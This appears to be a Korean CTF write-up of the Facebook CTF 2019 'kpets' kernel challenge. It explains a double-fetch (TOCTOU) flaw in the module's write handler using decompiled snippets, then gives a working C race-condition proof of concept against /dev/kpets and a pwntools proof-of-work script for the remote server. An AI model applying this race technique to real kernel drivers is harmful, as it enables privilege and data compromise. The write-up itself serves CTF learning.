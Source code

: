 ```yaml
---
title: Facebook CTF 2019 - kpets
date: 2019-06-05 15:00:53
categories:
- Kernel Exploit
- CTF write up
tags:
- Race condition
- TOCTOU
---
```


```sh
 __  __     ______   ______     ______   ______    
/\ \/ /    /\  == \ /\  ___\   /\__  _\ /\  ___\   
\ \  _"-.  \ \  _-/ \ \  __\   \/_/\ \/ \ \___  \  
 \ \_\ \_\  \ \_\    \ \_____\    \ \_\  \/\_____\ 
  \/_/\/_/   \/_/     \/_____/     \/_/   \/_____/ 
  
kpets: loading out-of-tree module taints kernel.
kpets: initializing stuff
kpets: welcome to Kernel Pets Simulator!                                              
```



```c
  copy_from_user(&nlen, &in->nlen, 4LL);
  if ( nlen > 0x20 )
  {
    printk("kpets: invalid pet name len: 0x%02x\n");
    return v11;
  }
```

write 함수를 보면 20번째 줄 쯤에 name length를 받아오는데 이게 0x20보다 크면 return 시킨다.



```c
...
    copy_from_user(&idx, nnlen, 4LL);
 ...
```

근데 77번째 줄에서 또 name length를 받아온다. ??????? 여기서 toctou가 발생한다.



```c
    do
    {
      --max;
      v9 = (v9 - 108);
      if ( max == -1 )
      {
        for ( i = first_slot->name; ; t = i[-1].t )
        {
          if ( t )
          {
            printk("Next pet\n");
            type = i[-1].t;
            switch ( type )
            {
              case 0xC1:
                printk("Type: cat\n");
                break;
              case 0xC2:
                printk("Type: sheep\n");
                break;
              case 0xC0:
                printk("Type: dog\n");
                break;
              default:
                printk("Type: unknown\n");
                break;
            }
            printk("Name: %s\n");
            printk("Description: %s\n");
          }
          --v4;
          --i;
          if ( v4 == -1 )
            break;
        }
        return 0LL;
      }
    }
    while ( v9->type != 0xAAu );
```

또 read함수에서 type 이 0xaa 가 아니면 printk로 pet의 정보를 출력해주는데 문제는 return 을 한다.



```c
  if ( a3 <= 41 )
  {
    if ( copy_to_user(v7, flag) )
    {
      result = -14LL;
    }
    else
    {
      *v6 += v17;
      result = v17;
    }
  }
```

return 밑에 flag 받아오는 코드가 있기 때문에 출력하는 구문으로 가면 안된다.



```c
  if ( (v12 + 0x40) > 1u && v12 != 0xC2u )
  {
    printk("kpets: invalid pet type: 0x%02hhx\n");
  }
```

근데 write 함수에서 type이 0xc2가 아니면 유효한 type이 아니라면서 저장을 안해준다. 로직이 너무 이상하다ㅠ

race condition으로 name length를 크게 만들어 다음 type을 0xaa로 만든 뒤 flag를 가져오도록 코드를 짜면된다.



## poc.c

```c
// gcc -o poc poc.c -static -pthread
#include <stdio.h>
#include <stdlib.h>
#include <fcntl.h>
#include <unistd.h>
#include <string.h>
#include <pthread.h>

typedef struct pet{

	char type;
	int nlen;
	char name[0x20];
	int dlen;
	char desc[0x40];
	char fake;

} Pet;

int fd;
Pet pet1;
pthread_t race;

void race_con(){
    
	while(1){
		pet1.nlen = 0x80;		
	}
    
}

int main(){

	char flag[0x100];
	int i = 0;

	memset(&flag,0,0x100);

	pet1.type = 0xc2;
	pet1.nlen = 0x20;
	memset(&pet1.name,0x77,0x20);
	pet1.dlen = 0x40;
	memset(&pet1.desc,0x61,0x40);
	pet1.fake = 0xaa;

	fd = open("/dev/kpets",O_RDWR);

	pthread_create(&race,0,&race_con,0);

	while(i<100){
        
		i++;
		pet1.nlen = 0x20;
		write(fd, &pet1, 0x70);
		read(fd, &flag, 0x100);
		printf("try %d:: %s\n",i,flag);
	
	}

}

```



## pow.py

```python
from pwn import *
import md5

w = remote("134.209.40.42",1337)

alpha = string.lowercase + string.uppercase + string.digits
url = "my_file_url"

def rand_string(length):
    return ''.join([random.choice(alpha) for _ in range(length)])

def solve(p):
    while True:
        att = rand_string(5)
        md = md5.new(att).digest()
        if p == md[:3]:
            print('Solution: {}'.format(att))
            return att

w.recvline()
w.recvuntil("== ")
poww = w.recv(3)

w.sendline(solve(poww))
w.sendline("Y")
w.sendline(url)
w.sendline("/bin/exploit")
w.interactive()

```


```sh
/ # ./init 
 __  __     ______   ______     ______   ______    
/\ \/ /    /\  == \ /\  ___\   /\__  _\ /\  ___\   
\ \  _"-.  \ \  _-/ \ \  __\   \/_/\ \/ \ \___  \  
 \ \_\ \_\  \ \_\    \ \_____\    \ \_\  \/\_____\ 
  \/_/\/_/   \/_/     \/_____/     \/_/   \/_____/ 
                                                   
/ $ ./poc
try 1:: 
try 2:: fb{***********************************}

try 3:: fb{***********************************}
...
```

대회 끝나고 푼거라 init 직접 실행시켜줘야 한다..ㅎㅎ 서버에서 실행하려면 pow.py 실행하면 된다.

poc 코드를 실행시키면 예쁘게 flag가 나온다.



대회 중에 푼 asciishop, babylist, otpserver, overfloat, r4nk 문제 exploit 코드는 <https://github.com/wally0813/write-up/tree/master/ctf/2019/facebook> 에 올려 놨다.

